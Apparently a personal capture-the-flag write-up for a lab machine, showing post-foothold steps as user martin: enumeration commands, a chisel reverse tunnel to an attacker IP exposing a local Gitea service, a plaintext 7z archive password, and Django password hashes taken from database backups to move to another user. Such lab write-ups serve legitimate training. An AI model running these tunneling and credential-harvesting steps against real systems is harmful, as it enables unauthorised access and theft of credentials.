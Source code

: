 # martin
we get the foothold of the machine by ssh-ing into the machine
![[Pasted image 20231129070104.png]]
we find that there are three other local users, lets further enumerate the machine

![[Pasted image 20231129070157.png]]

we can run any commands as sudo
```bash
sudo -l
users and group
```

lets see the process list
cmd:
```bash
ps -ef --forest
```
o/p
![[Pasted image 20231201080415.png]]

let's see what ports are active 
```bash
ss -anltp
```
![[Pasted image 20231129075006.png]]
we see theres `3306 33060` which is `mysql` and `3000` port. we can curl it to confirm its a gitea instance

From here on, we port forward it
# chisel reverse port forward
```bash
on target machine
./chisel client 10.10.16.68:9001 R:3000:127.0.0.1:3000
```

```bash
on attacking machine
./chisel_1.9.1_linux_amd64 server -p 9001 --reverse
```

## gitea
![[Pasted image 20231129075116.png]]
well, we dont have any password for any user, so we are still missing a piece.
Now if we remember from the fuzzing we found a file that talked about databases in `/var/www/backups`, lets cd into it to find
## database file
![[Pasted image 20231129075234.png]]
the backups db are password protected and we couldnt crack it, but if we try the `db.sqlite3` db we can see theres a table called `accounts_customer`

![[Pasted image 20231129075348.png]]

![[Pasted image 20231129075640.png]]
The hash format is `124` `Django (SHA-1)`,we could only crack the hash for
`tom@drive.htb:[REDACTED]` but oh bummer, we cant ssh as tom.
lets try gitea creds for martinCruz since we know his username now and we get logged in 

![[Pasted image 20231129082656.png]]

![[Pasted image 20231129082712.png]]

we find the password for 7z zip file
`H@ckThisP@ssW0rDIfY0uC@n:)`
we transfer the db  in `/var/www/backups` files form target machine to our machine and use it to extract the db files. The passwords are under `accounts_customuser` table.

now, one thing here is the `1_Dec_db_backup.sqlite3.7z` had a different hash type and it was taking its sweet time to crack it so we skipped that one, the other hashes we found were able to crack
```bash
hash from oct sqlite
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:[REDACTED]

hash from Nov sqlite
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:[REDACTED]
```

only one password works for tom and thats in `1_Nov_db_backup.sqlite3.7z` and we get user.txt

[[binary]]